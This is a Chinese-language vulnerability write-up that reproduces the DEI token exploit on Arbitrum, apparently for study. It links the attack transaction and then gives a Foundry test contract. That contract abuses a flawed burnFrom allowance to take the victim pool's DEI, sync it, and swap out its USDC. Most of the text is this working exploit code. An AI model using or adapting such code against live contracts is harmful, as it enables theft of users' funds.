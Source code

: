 # 智能合约漏洞案例，DEI 漏洞复现

# 1. 漏洞简介

[https://twitter.com/eugenioclrc/status/1654576296507088906](https://twitter.com/eugenioclrc/status/1654576296507088906)
![](https://cdn.nlark.com/yuque/0/2023/png/97322/1694318123903-5dbdfcf3-0773-4b41-8efc-2cc93434b234.png#averageHue=%23f0f0f0&clientId=uac557b7f-3297-4&from=paste&id=u367cc357&originHeight=475&originWidth=530&originalType=url&ratio=2&rotation=0&showTitle=false&status=done&style=none&taskId=uac81e4f9-8613-41d1-a663-ba84c74381e&title=)

# 2. 相关地址或交易

[https://explorer.phalcon.xyz/tx/arbitrum/0xb1141785b7b94eb37c39c37f0272744c6e79ca1517529fec3f4af59d4c3c37ef](https://explorer.phalcon.xyz/tx/arbitrum/0xb1141785b7b94eb37c39c37f0272744c6e79ca1517529fec3f4af59d4c3c37ef) 攻击交易

# 3. 获利分析

![](https://cdn.nlark.com/yuque/0/2023/png/97322/1694318123938-898725c9-25b8-4bd4-a097-3722aa9a4ade.png#averageHue=%23ffc166&clientId=uac557b7f-3297-4&from=paste&id=uf04b6d6b&originHeight=269&originWidth=1751&originalType=url&ratio=2&rotation=0&showTitle=false&status=done&style=none&taskId=ub50c42a4-aa4b-405d-8eea-215681e0440&title=)

# 5. 漏洞复现

```
pragma solidity ^0.8.10;

//import  "../interfaces/interface.sol";
import "forge-std/Test.sol";
import "./interface.sol";
import "../contracts/ERC20.sol";

interface DEI {
    function burnFrom(address account, uint256 amount) external;
}

interface AMM {
    function sync() external;
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
    function getAmountOut(uint amountIn, address tokenIn) external returns(uint256);

}

contract ContractTest is Test{

    address constant dei = 0xDE1E704dae0B4051e80DAbB26ab6ad6c12262DA0;
    address constant victim = 0x7DC406b9B904a52D10E19E848521BbA2dE74888b;
    address constant usdc = 0xFF970A61A04b1cA14834A43f5dE4533eBDDB5CC8;



    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    function setUp() public {
        cheats.createSelectFork("arbitrum", 87626026 -2);
        //uint256 forkId = cheats.createFork("bsc");
        //cheats.selectFork(forkId);

    }

    function testExploit() external {
        IERC20(dei).approve(victim,type(uint256).max);
        DEI(dei).burnFrom(victim, 0);
        emit log_named_decimal_uint("Attacker DEI allowance", IERC20(dei).allowance(victim,address(this)), 18);

        uint256 victimNum = IERC20(dei).balanceOf(victim);
        emit log_named_decimal_uint("victim DEI allowance", victimNum, 18);
        IERC20(dei).transferFrom(victim,address(this),victimNum-1);
        AMM(victim).sync();
        emit log_named_decimal_uint("After attack,Attacker DEI allowance",IERC20(dei).balanceOf(address(this)), 18);
        uint outNum = AMM(victim).getAmountOut(victimNum-1, dei);
        emit log_named_decimal_uint("outNUm is :",outNum, 18);

        IERC20(dei).transfer(victim,victimNum-1);
        AMM(victim).swap(0, outNum, address(this), "");

        emit log_named_decimal_uint("After attacker's usdc is :",IERC20(usdc).balanceOf(address(this)), 6);

    }
}
```
